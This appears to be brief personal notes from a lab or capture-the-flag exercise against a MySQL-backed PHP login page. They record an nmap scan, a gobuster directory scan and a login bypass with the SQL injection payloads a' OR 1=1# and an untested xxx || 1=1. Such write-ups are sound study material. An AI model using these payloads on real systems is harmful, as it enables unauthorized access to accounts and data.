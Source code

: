 # SQLi (mysql)

## Scan

```bash
nmap -sV -T5 10.129.210.87
```

Port 80 is exposed (an apache server!)

## gobuster

```bash
gobuster dir -u 10.129.210.87 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
```

(did not find any useful routes, but we have found out it is written in php, so easier to fo sql injection)

## SQL injection

successfully logged in using `a' OR 1=1#` (dont even need to know the username)

Additonal: (also possible using `xxx || 1=1`, untested)
